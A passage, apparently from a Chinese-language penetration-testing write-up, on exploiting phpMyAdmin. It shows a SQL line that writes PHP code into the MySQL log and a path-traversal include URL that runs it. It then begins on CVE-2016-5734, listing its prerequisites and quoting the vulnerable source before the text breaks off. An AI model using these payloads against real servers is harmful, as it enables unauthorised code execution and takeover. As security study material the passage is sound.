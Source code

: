 ```
select '<?php phpinfo(); ?>'
```

写入日志文件

再包含

```
http://127.0.0.1:8080/index.php?target=db_sql.php?/../../../../../../../../var/lib/mysql/e11ed353cc0b.log
```

这个主要使用于日志记录功能已开启，没有修改的权限，并且知道日志路径，才能包含成功。

如果可以修改也能够直接getshell，不需要包含。

**4、包含上传的sql文件**

这个利用前提是你知道上传sql文件地址，否则不能包含成功。

这里不在赘述。

---

### CVE-2016-5734

出现这个漏洞的PhpMyAdmin版本久远，php也是古董版本，并且利用条件苛刻，碰见应该几率很小。

**利用前提**

```
授权用户 ·#可以登录phpmyadmin，并读写
phpmyadmin 4.0.x———4.0.10.16 && 4.4.x---4.4.15.7
php 4.6.x--4.6.3
```

在tbl_find_replace.php文件的第23行

```php
if (isset($_POST['find'])) {
    $preview = $table_search->getReplacePreview(
        $_POST['columnIndex'],
        $_POST['find'],
        $_POST['replaceWith'],
        $_POST['useRegex'],
        $connectionCharSet
    );
    $response->addJSON('preview', $preview);
    exit;
}
```

跟进**getReplacePreview**，在TableSearch.class.php的第1429行，部分代码

```php
function getReplacePreview($columnIndex, $find, $replaceWith, $useRegex,
        $charSet
    ) {
        $column = $this->_columnNames[$columnIndex];
        if ($useRegex) {
            $result = $this->_getRegexReplaceRows(
                $columnIndex, $find, $replaceWith, $charSet
            );
```
